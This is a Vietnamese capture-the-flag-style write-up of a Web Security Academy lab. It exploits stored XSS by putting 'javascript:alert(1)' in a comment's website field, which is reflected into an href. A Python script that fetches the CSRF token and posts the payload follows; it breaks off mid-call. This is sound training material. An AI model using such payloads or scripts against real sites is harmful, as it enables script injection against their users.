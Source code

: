 ### Đề bài

![image](https://hackmd.io/_uploads/Bk6hDt8ca.png)

### Phân tích

- Lab này chứa lỗ hổng stored XSS ở chức năng comment, để solve lab thì mình cần comment mà thực hiện được lệnh alert mỗi khi click vào tên của người comment.

- mình đã thử post comment không có website, thì mình XSS ở chức năng comment nhưng không được, nên minhg đã thêm vào website là `a.com` và khi nộp comment ta thấy được trang web được đưa vào thuộc tính href:

![image](https://hackmd.io/_uploads/rkVe1qI9T.png)

### Khai thác

- Chỉ cần website là `javascript:alert(1)`,

![image](https://hackmd.io/_uploads/rygGN9U5p.png)

Lúc này chi victim click vào tên của chúng ta sẽ xuất hiện alert và thành công solve được challenge.

![image](https://hackmd.io/_uploads/ryrcEqI56.png)

và mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a890075035ce34080811823000e0068.web-security-academy.net/'

session = requests.Session()
response = session.get(
    url + 'post?postId=8' ,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input' , {'name' : 'csrf'})['value']
payload = "javascript:alert(1)"

data = {
    'csrf' : csrf,
    'postId' : '8',
    'comment' : 'cuong',
    'name' : 'cuong',
    'email' : 'a@a.a',
    'website' : payload,
}
response = session.post(
    url + "post/comment",
    data=data,
    verify=False,
)

response = session.get(
    url + 'post?postId=8' ,
    verify=False,
```